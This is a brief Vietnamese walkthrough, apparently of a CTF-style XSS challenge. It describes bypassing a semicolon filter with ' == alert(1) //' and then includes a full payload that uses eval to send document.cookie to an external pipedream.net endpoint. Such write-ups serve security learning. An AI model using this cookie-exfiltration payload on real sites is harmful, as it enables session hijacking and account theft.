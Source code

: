 - Thử `';alert()//` thì có vẻ `;` bị filter.

- Sửa lại payload: `' == alert(1) //` thì thấy bị dính XSS:

![1](1/../img/21/Screenshot%20from%202023-01-29%2021-19-28.png)

- Ta có thể sử dụng `eval` để redirect. Thử với payload dưới thì thấy bị phát hiện:

```
' == (eval)(document.location='https://1cbc05c9d3b9533c136bdb7d71fce3a0.m.pipedream.net?c='.concat(document.cookie))//
```

![1](1/../img/21/Screenshot%20from%202023-01-29%2021-20-58.png)
